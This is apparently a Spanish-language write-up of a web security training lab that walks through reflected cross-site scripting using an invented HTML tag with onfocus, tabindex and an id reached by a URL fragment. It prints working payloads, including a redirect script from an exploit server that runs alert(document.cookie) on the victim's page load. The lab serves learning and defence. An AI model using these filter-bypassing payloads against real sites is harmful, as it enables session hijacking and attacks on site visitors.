 Utilizamos un servidor de explotación para construir un vector que incluye una etiqueta inventada, con un identificador específico y un evento que se activa al enfocar ese elemento. Al añadir un fragmento al final de la URL que apunta a esa etiqueta personalizada, el navegador intenta enfocarla automáticamente al cargar la página, lo que desencadena la ejecución del código malicioso sin necesidad de interacción del usuario.

Este laboratorio demuestra cómo incluso etiquetas no estándar pueden ser vehículos válidos para ataques XSS si los atributos y eventos no son controlados adecuadamente, reforzando la importancia de validar todo el contenido, no solo el nombre de la etiqueta.

----

Para este caso, debemos de saber que etiqueta es valida, pero no llegamos a nada, por lo que debemos de diseñar nuestra propia etiqueta:

```html
<etiqueta>Markos</etiqueta>
```

Pero debemos de hacer algo más, por ejemplo, darle un atributo a la etiqueta:

```html
Para cuando seleccione el valor "Markos" se active el alert
<etiqueta onfocus=alert(1)>Markos</etiqueta>
```

Pero no funciona, pero podemos buscar el por qué no funciona, y es porque debemos de meter algun contenido adicional, como "tabindex"

onfocus tag no executing javascript

Por lo que puede quedar de la siguiente forma:

```html
<etiqueta onfocus=alert(1) tabindex=1>Markos</etiqueta>
```

Y al seleccionar la cadena de "Markos" da el XSS o cuando damos tabs varias veces hasta llegar a ese elemento

Ahora, para mandarle ese script a la victima, podemos hacer lo siguiente desde el server:

```javascript
<script>
    location = 'https://burpsuite?search=<etiqueta id=identificador onfocus=alert(1) tabindex=1>#identificador</etiqueta>'
    location = 'https://burpsuite?search=<etiqueta id=identificador onfocus=alert(document.cookie) tabindex=1>#identificador</etiqueta>'
</script>
```


Cambiamos un poco el script anterior:

id = identificador
    Nos va a permitir ponerle un identificador a la etiqueta personalizable

\#identificador
    En este caso, quitamos markos y pusimos lo anterior, para hacer referencia que nos mande a esa sección del codigo, como en el caso del auto-scroll desde la URL agregando el "#"



